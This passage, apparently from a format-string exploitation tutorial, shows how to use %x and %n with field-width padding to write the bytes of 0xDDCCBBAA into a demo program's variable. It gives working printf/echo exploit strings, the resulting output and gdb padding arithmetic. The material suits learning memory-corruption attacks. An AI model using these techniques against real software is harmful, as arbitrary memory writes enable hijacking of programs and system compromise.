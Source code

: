 +100, etc.

This works fine for small numbers, but not for large ones like memory addresses.


### 4) Field-width specifier

If we look at the hex representation of the overwrite_me value, we can see that the end 2 values (i.e. the LSB) can be controlled quite well. 

We can use multiple writes to the memory address of the integer that we're overwriting, offset by a byte each time, in order to write larger bits of data.

Lets try write 0xDDCCBBAA into our overwrite_me variable to demonstrate.

In order to do this, we'll need to write AA first, then BB, then CC, then DD.

**First write (AA):**

`echo "$(printf '\x8c\xbe\xff\xff')%x%x%x%8x%n" | ./demo`
```
����ffffd22880491ccffffbe90       0


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 35 0x00000023

```

When we run our original exploit string with 8 , we have 35 (or 0x23) in the LSB.

We can use gdb to calculate the number of characters we need to print before we hit the hex value for aa:

```
(gdb) p 0xaa - 35 + 8
$3 = 143
```

`echo "$(printf '\x8c\xbe\xff\xff')%x%x%x%143x%n" | ./demo`

```
Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 170 0x000000aa
```


**Second write (BB):**

To write BB, we need another argument for another %x format parameter, that increments the byte count to 0xBB. 

In order to do this we need the memory addresses that we're going to use for writes on the stack.

`$( printf '\x8c\xbe\xff\xffJUNK\x8d\xbe\xff\xffJUNK\x8e\xbe\xff\xffJUNK\x8f\xbe\xff\xff')%x%x%x%x8%n"`

```
����JUNK����JUNK����JUNK����ffffd22880491ccffffbe9008


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 53 0x00000035

```
